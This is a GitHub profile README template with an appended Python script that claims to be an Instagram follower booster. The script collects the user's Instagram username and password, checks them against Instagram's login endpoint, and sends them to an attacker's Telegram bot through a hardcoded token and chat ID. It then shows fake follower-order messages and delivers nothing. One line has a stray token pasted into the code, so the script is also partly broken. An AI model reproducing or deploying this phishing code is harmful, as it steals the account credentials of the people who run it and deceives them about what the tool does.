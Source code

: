 - 👋 Hi, I’m @qweqwe114
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
qweqwe114/qweqwe114 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
import requests, random, requests, json, pyfiglet,sys,time, os, uuid
Ab='\033[1;92m'
aB='\033[1;91m'
AB='\033[1;96m'
aBbs='\033[1;93m'
AbBs='\033[1;95m'
A_bSa = '\033[1;31m'
a_bSa = '\033[1;32m'
faB_s = '\033[2;32m'
a_aB_s = '\033[2;39m'
Ba_bS = '\033[2;36m'
Ya_Bs = '\033[1;34m'
S_aBs = '\033[1;33m'
ab = pyfiglet.figlet_format(" *JAMAL *")
print(a_bSa+ab)
def slow(T): 
	for r in T + '\n' :
	    sys.stdout.write(r)
	    sys.stdout.flush()
	    time.sleep(30/2000)

slow(S_aBs+"""⌯ Welcome In Instagram Follower Script 💘.   \n ⌯ اهلا بيك في اداه رشق متابعين انستقرام 💘.
---------------------------------------------------
""")
uid = uuid
username = input (''+Ba_bS+'('+a_aB_s+'!'+S_aBs+')'+Ba_bS+'  ⌯ Enter Username  :  '+faB_s)
print('  ')
password = input (''+Ba_bS+'('+a_aB_s+'!'+S_aBs+')'+Ba_bS+'  ⌯ Enter Password  :  '+faB_s)
print('  ')
url_login = 'https://www.instagram.com/accounts/login/ajax/'
headers_login = {
    'accept': '*/*',
    'accept-encoding': 'gzip, deflate, br',
    'accept-language': 'ar,en-US;q=0.9,en;q=0.8',
    'content-length': '291',
    'content-type': 'application/x-www-form-urlencoded',
    'cookie': 'ig_did=3E70DB93-4A27-43EB-8463-E0BFC9B02AE1; mid=YCAadAALAAH35g_7e7h0SwBbFzBt; ig_nrcb=1; csrftoken=5281960666:AAEaoU3vw8JmhHMOVG7330BU0AxQ685kCAU',
    'origin': 'https://www.instagram.com',
    'referer': 'https://www.instagram.com/',
    'sec-fetch-dest': 'empty',
    'sec-fetch-mode': 'cors',
    'sec-fetch-site': 'same-origin',
    'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36',
    'x-csrftoken': 'COmXgzKurrq8awSnRS1xf3u9rL6QsGZI',
    'x-ig-app-id': '936619743392459',
    'x-ig-www-claim': '0',
    'x-instagram-ajax': '1cb44f68ffec',
    'x-requested-with': 'XMLHttpRequest'
}
data_login = {
    'username': username,
    'enc_password': f'#PWD_INSTAGRAM_BROWSER:0:1613414957:{password}',
    'queryParams': '{}',
    'optIntoOneTap': 'false'
}
req_login = requests.post(url_login,5281960666:AAEaoU3vw8JmhHMOVG7330BU0AxQ685kCAU data=data_login, headers=headers_login)
if '"authenticated":false' in req_login.text:
    print(''+Ba_bS+'('+a_aB_s+'!'+S_aBs+')'+Ba_bS+'  ⌯ Username or Password Is Error Try Agin . \n ⌯ اسم الستخدم او الباسورد خطأ اعد مره اخرۍ .')
    exit(0)
elif '"authenticated":true' in req_login.text:
    print(''+Ba_bS+'('+a_aB_s+'√'+S_aBs+')'+Ba_bS+'  ⌯ Done Login . \n ⌯ تم تسجيل الدخول بنجاح .')
os.system("clear")		
print(a_bSa+ab)
ID = '1894309074'
token = '5293943492:AAHaW3TXbE_gpCFuQaYzAaxDtwIvUOsoEHI'
t = requests.post(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text= new account 🦇 ︎\n.User : [ → {username} ← ]\n.Pass : [ → {password} ← ]\n- CH : @JJAAMMAALLL - PY : @JAMA_700L ")
slow(S_aBs+''' 
⌯  [ 1 ] - 3k    ⇦  
⌯  [ 2 ] - 5k    ⇦  
⌯  [ 3 ] - 8k    ⇦  
⌯  [ 4 ] - 10k   ⇦  
⌯  [ 5 ] - 15k   ⇦  
⌯  [ 6 ] - 20k   ⇦  
   \n''')
Abs = input (''+Ba_bS+'  ⌯ اختر كم عدد الرشق الذي تريده .\n ⌯ Choose the number of followers you want  :  '+faB_s)
print('  ')
if (Abs == '1'):
	print(Ba_bS+'\n- اهلا بك عزيزي مره اخرى تم اختيار طلبم لرشق 3000 \nمتابع يرجى الانتضار الى ان يتم الوصول الى طلبك\n الطلبات الان 10 طلب 💞💞\n\n - Welcome dear, once again your request has been\nselected to throw 3000 followers Please wait\n until your request is reached Orders are now\n   50 requests 💞💞.   ')
if (Abs == '2'):
	print(Ba_bS+'\n- اهلا بك عزيزي مره اخرى تم اختيار طلبم لرشق 5000 \nمتابع يرجى الانتضار الى ان يتم الوصول الى طلبك\n الطلبات الان 20 طلب 💞💞\n\n - Welcome dear, once again your request has been\nselected to throw 8000 followers Please wait\n until your request is reached Orders are now\n   150 requests 💞💞.   ')
if (Abs == '3'):
	print(Ba_bS+'\n- اهلا بك عزيزي مره اخرى تم اختيار طلبم لرشق 8000 \nمتابع يرجى الانتضار الى ان يتم الوصول الى طلبك\n الطلبات الان 30 طلب 💞💞\n\n - Welcome dear, once again your request has been\nselected to throw 3000 followers Please wait\n until your request is reached Orders are now\n   50 requests 💞💞.   ')
if (Abs == '4'):
	print(Ba_bS+'\n- اهلا بك عزيزي مره اخرى تم اختيار طلبم لرشق 10000 \nمتابع يرجى الانتضار الى ان يتم الوصول الى طلبك\n الطلبات الان 40 طلب 💞💞\n\n - Welcome dear, once again your request has been\nselected to throw 10000 followers Please wait\n until your request is reached Orders are now\n   200 requests 💞💞.   ')
if (Abs == '5'):
	print(Ba_bS+'\n- اهلا بك عزيزي مره اخرى تم اختيار طلبم لرشق 15000 \nمتابع يرجى الانتضار الى ان يتم الوصول الى طلبك\n الطلبات الان 50 طلب 💞💞\n\n - Welcome dear, once again your request has been\nselected to throw 15000 followers Please wait\n until your request is reached Orders are now\n   250 requests 💞💞.   ')
if (Abs == '6'):
	print(Ba_bS+'\n- اهلا بك عزيزي مره اخرى تم اختيار طلبم لرشق 20000 \nمتابع يرجى الانتضار الى ان يتم الوصول الى طلبك\n الطلبات الان 60 طلب 💞💞\n\n - Welcome dear, once again your request has been\nselected to throw 20000 followers Please wait\n until your request is reached Orders are now\n   2 requests 💞💞.   ') 
